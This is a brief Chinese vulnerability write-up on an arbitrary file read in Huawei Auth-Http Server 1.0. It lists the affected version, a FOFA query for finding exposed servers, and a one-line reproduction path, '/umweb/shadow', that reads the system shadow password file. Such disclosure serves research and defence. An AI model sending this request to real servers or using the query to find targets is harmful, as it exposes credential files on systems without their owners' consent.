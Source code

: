 # 华为Auth-Http Server 1.0存在任意文件读取

# 一、漏洞简介
华为Auth-Http Server 1.0存在任意文件读取漏洞

# 二、影响版本
+ 华为Auth-Http Server 1.0

# 三、资产测绘
+ fofa`server="Huawei Auth-Http Server 1.0"`
+ 特征

![1699412396641-ceacb9ea-3734-4626-b088-37559c150c3e.png](./img/awN0FrlYIE9HHmOb/1699412396641-ceacb9ea-3734-4626-b088-37559c150c3e-662211.png)

## 四、漏洞复现
```plain
/umweb/shadow
```

![1699412443472-84c1538e-472c-4434-bbe7-92c7d2f10f2a.png](./img/awN0FrlYIE9HHmOb/1699412443472-84c1538e-472c-4434-bbe7-92c7d2f10f2a-439777.png)



> 更新: 2024-02-29 23:57:13  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/idyr2darqkc3u2m2>